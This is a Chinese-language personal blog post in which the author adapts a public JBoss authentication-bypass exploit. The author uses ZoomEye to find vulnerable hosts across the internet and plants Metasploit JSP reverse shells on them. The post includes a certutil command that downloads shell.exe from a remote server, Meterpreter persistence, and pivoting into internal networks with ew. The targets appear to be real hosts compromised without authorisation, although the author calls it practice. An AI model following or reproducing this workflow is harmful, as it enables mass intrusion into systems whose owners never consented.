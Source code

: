 文章缘起于github上的一个jboss利用代码[https://github.com/yuxiaokui/JBoss-Hack](https://github.com/yuxiaokui/JBoss-Hack)
人家还给了一个简单的UIshell界面 不过，好难用的说这个后面再说
这个漏洞就是JBoss的默认身份验证漏洞，都不用登录的说，直接去网上扫就好了
那么问题来了，原作者写的一句话jsp的后门菜刀连不上，蚁剑不支持jsp，这就尴尬了，不过还好人家代码挺少，只能乖乖修改源码去了。

![](https://github.com/0linlin0/Records/blob/master/images/jb1.png?raw=true)

原作者调用了zoomeye的api，然后构造exp，发送get请求，并验证在这里我们可以修改exp，我们强大的msf可以生成payload，用的是 payload/java/jsp_shell_reverse_tcp ，生成的代码不太多，因为漏洞利用的时候需要将代码url编码后放到get请求里，所以这里就悲催了，尽量压缩代码把。msf心比它提供的UIshell界面好用多了。谁让我java很烂呢:(
生成payload并进行url编码，修改exp，然后运行修改后的脚本

![](https://github.com/0linlin0/Records/blob/master/images/jb2.png)

得到存在漏洞的主机列表

![](https://github.com/0linlin0/Records/blob/master/images/jb3.png)


Msf端设置监听端口，等待回连，访问链接，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb4.png)

Yes！拿到了webshell，我就想拿meterpreter，首先得上传payload，所以我又去搜，windows命令行下怎么样下载远程文件，得到了好多结果

[http://www.4hou.com/system/8661.html](http://www.4hou.com/system/8661.html)

[http://www.freebuf.com/articles/system/155147.html](http://www.freebuf.com/articles/system/155147.html) 
[结果3](http://wps2015.org/drops/drops/%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%8415%E7%A7%8D%E6%96%B9%E6%B3%95.html)

嗯。。我想说搜到了这么多，我只用了一个certutil
在webshell上运行这个命令
certutil.exe -urlcache -split -f https：//a.com/shell.exe
[certutil.exe利用](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)
嘻嘻嘻，原谅我的懒惰，剩下的好多看不懂。。。所以以后慢慢唉，总会又用到的时候
所以我再vps上搭建了一个web服务，这样就可以啦，我的meterperter上传上去啦！所以我得到更高级的shell啦，而且还可以是长期的!说到这里，又遇到两个问题：
首先是上出啊的payload免杀的问题，还有是持久后门的问题，这一搜，打开了新世界的大门。这里留个坑，以后好好研究这里的内容。因为我比较幸运，目标上没有任何防护，不涉及到免杀，而且meterpreter自带的持久后门run persistence暂时就蛮好用的，虽然官方不推荐了，不过我们先凑活着用，毕竟只是练练手，嘻嘻。
然后就进入到进入内网的问题了，ew人家更新了（http://rootkiter.com/Termite/）
看了人家的视频，真的是好好用，我太菜了，一直不成功，是不是Termite只支持正向socks..应该不会吧，所以只能先用着ew了。。。伤心当中。
关于Termite的使用不成功


![](https://github.com/0linlin0/Records/blob/master/images/jb5.png)


上传成功后msf监听端口，等待回连，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb6.png)
